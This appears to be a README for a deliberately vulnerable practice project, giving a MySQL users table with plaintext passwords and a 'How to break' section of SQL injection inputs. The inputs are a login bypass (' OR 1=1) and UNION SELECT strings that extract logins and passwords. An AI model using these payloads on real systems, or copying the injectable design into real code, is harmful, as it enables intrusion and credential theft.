 # BackDoorCode

Very stupid code only for data protection practise

# DB:

DROP DATABASE IF EXISTS db;

CREATE DATABASE db;

CREATE TABLE users (
   id INTEGER AUTO_INCREMENT,
   login varchar(255),
   pass varchar(255),
   data varchar(255),
   PRIMARY KEY(id)
);

INSERT INTO users VALUES(NULL,'login','pass','goto A');


# How to break:

    1) access to data:
        login: login' OR 1=1; #
        password: any
    2) access to users table:
        login: ' union select login from users order by 1 DESC; #
        or
        ' union select pass from users order by 1 DESC; #
        password: any
